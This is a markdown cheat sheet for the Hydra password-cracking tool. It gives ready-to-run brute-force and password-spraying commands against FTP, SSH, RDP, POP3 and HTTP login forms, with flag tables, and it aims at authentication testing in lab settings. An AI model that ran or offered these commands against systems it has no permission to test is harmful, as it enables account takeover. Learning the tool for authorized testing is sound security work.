 ```yaml
---
title: Hydra
description:  Hydra is a powerful tool used for performing brute-force attacks on various protocols and services to test the security of authentication mechanisms
---
```


## Example
`$ hydra -t 4 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV TARGET_IP ftp`


| SECTION         |   FUNCTION | 
| --- | ---|
| -t 4            | Number of parallel connections per target| 
| -l [USERNAME]   |  Points to the user who's account you're trying to compromise| 
| -P [path to dictionary]  | Points to the file containing the list of possible passwords| 
| -vV             |  Sets verbose mode to very verbose, shows the login+pass combination for each attempt| 
| [TARGET_IP]     |  The IP address of the target machine| 
| ftp / protocol  |   Sets the protocol (Over 50 different protocols)| 

## Password Spraying
You can use Hydra to bruteforce usernames as well as passwords

`$ hydra -L usernames-list.txt -p Passw0rd123 ssh://10.1.1.10`

## Bruteforce RDP
You can attack a Windows Remote Desktop with a password list!

`$ hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>`

## Bruteforce POP3
```bash
$ hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3s://10.10.125.25:55006    
```


## Bruteforce HTTP login pages

Form syntax: `<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

#### GET Example
`$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`

| SECTION         |   FUNCTION | 
| --- | ---|
| -l admin            | Specify a single username, use `-L` for a username wordlist| 
| -P  |   Specify the full path of wordlist, use `-p` for a single password| 
| 10.10.x.x [path to dictionary]  | The IP address or the fully qualified domain name (FQDN) of the target| 
| http-get-form            | The type of HTTP request, which can be either `http-get-form` or `http-post-form`| 
| PARAMETERS  |  Specify the URL, path, and conditions.  login-get/index.php is the path of the login page on the target webserver.  username=^USER^&password=^PASS^ are the parameters to brute-force. 


#### POST Example
`$ hydra -l <username> -P <wordlist> 10.10.12.119 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

- The login page is only /, i.e., the main IP address.
- The username is the form field where the username is entered
- The specified username(s) will replace ^USER^
- The password is the form field where the password is entered
- The provided passwords will be replacing ^PASS^

`F=incorrect` is a string that appears in the server reply when the login fails


## Resources

- [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)